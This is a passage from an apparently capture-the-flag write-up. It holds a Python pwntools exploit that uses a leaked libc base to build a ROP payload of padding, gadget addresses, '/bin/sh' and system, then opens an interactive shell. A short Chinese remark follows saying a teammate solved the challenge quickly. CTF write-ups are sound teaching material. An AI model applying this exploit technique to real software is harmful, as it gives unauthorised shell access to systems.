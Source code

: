 ```python
li('libcbase',libcbase)

ru('>\n')
s('2')
ru('sensible>>\n')
#padding 136
system = libcbase + libc.sym['system']
bin_sh = libcbase + next(libc.search(b'/bin/sh\x00'))
gadget1_addr=libcbase + 0x72450
gadget2_addr=libcbase + 0x72448
payload = p64(gadget2_addr)*2 + b'a'*0x78 + p64(gadget1_addr)+ p64(gadget2_addr)*7+p64(bin_sh) + p64(system)*5
io.sendline(payload)
io.send('3')
io.interactive()
shell()
```

### note

这题倒是没啥难度，当时起床晚了看了一下题目，leof 师傅三下五除二就搞出来了就没继续看了。